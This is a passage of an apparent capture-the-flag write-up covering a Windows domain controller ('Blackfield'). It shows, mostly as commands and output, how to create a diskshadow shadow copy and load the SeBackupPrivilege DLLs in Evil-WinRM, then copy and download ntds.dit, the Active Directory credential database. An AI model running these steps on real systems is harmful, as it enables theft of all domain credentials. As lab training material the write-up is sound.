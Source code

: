~~~
set context persistent nowriters
set metadata C:\temp\metadata.cab
add volume c: alias yaagn
create
expose %yaagn% z:
~~~
{: .language-bash}



This will make a shadowcopy and expose it at the Z: drive, after it's done i can now copy the ntds file to my temporary directory on the box

I want to use the SeBackupPrivilege commands to be able to copy the ntds database, so i have to upload them to the box and then import them into powershell first. The DLLs are available [here](https://github.com/giuliano108/SeBackupPrivilege)

~~~
*Evil-WinRM* PS C:\Users\svc_backup\Desktop> Import-Module .\SeBackupPrivilegeCmdLets.dll
*Evil-WinRM* PS C:\Users\svc_backup\Desktop> Import-Module .\SeBackupPrivilegeUtils.dll
~~~

~~~
*Evil-WinRM* PS C:\temp> diskshadow /s script.txt
Microsoft DiskShadow version 1.0
Copyright (C) 2013 Microsoft Corporation
On computer:  DC01,  11/8/2020 10:42:16 PM

-> set context persistent nowriters
-> set metadata C:\temp\metadata.cab
-> add volume c: alias yaagn
-> create
Alias yaagn for shadow ID {4273f94b-9616-406e-a375-ec9a46237a76} set as environment variable.
Alias VSS_SHADOW_SET for shadow set ID {99ee7839-4a45-4984-aba0-4a82867fb7d0} set as environment variable.

Querying all shadow copies with the shadow copy set ID {99ee7839-4a45-4984-aba0-4a82867fb7d0}

        * Shadow copy ID = {4273f94b-9616-406e-a375-ec9a46237a76}               %yaagn%
                - Shadow copy set: {99ee7839-4a45-4984-aba0-4a82867fb7d0}       %VSS_SHADOW_SET%
                - Original count of shadow copies = 1
                - Original volume name: \\?\Volume{351b4712-0000-0000-0000-602200000000}\ [C:\]
                - Creation time: 11/8/2020 10:42:17 PM
                - Shadow copy device name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
                - Originating machine: DC01.BLACKFIELD.local
                - Service machine: DC01.BLACKFIELD.local
                - Not exposed
                - Provider ID: {b5946137-7b9f-4925-af80-51abd60b20d5}
                - Attributes:  No_Auto_Release Persistent No_Writers Differential

Number of shadow copies listed: 1
-> expose %yaagn% z:
-> %yaagn% = {4273f94b-9616-406e-a375-ec9a46237a76}
The shadow copy was successfully exposed as z:\.
->
*Evil-WinRM* PS C:\temp> Copy-FileSeBackupPrivilege z:\windows\NTDS\ntds.dit c:\temp\ntds.dit
*Evil-WinRM* PS C:\temp> download ntds.dit
Info: Downloading C:\temp\ntds.dit to ntds.dit

                                                             
Info: Download successful!
~~~
{: .language-bash}
